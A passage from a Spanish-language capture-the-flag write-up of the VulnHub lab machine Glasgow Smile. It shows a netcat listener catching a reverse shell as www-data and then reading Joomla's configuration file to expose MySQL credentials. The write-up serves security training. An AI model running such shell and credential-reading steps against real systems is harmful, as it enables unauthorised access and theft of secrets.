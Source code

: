 Validamos, nos ponemos en escucha y gerenamos la reverse shell.

![rs1](/assets/img/commons/vulnhub/GlasgowSmile/rs1.png){: .center-image }

![rs2](/assets/img/commons/vulnhub/GlasgowSmile/rs2.png){: .center-image }


## User Pivoting

---

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.50] 55668
bash: cannot set terminal process group (439): Inappropriate ioctl for device
bash: no job control in this shell
www-data@glasgowsmile:/var/www/html/joomla/templates/protostar$
```

En este momemto somos `www-data`{: .filepath}, listando los archivos de configuración de Joomla, encontramos `user:pass`{: .filepath} de la conexión a mysql.

```bash
www-data@glasgowsmile:/tmp$ cat /var/www/joomla2/configuration.php
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'Joker';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'joomla';
        public $password = 'babyjoker';
        public $db = 'joomla_db';
        public $dbprefix = 'jnqcu_';
		public $live_site = '';
        public $secret = 'fNRyp6KO51013435';
```
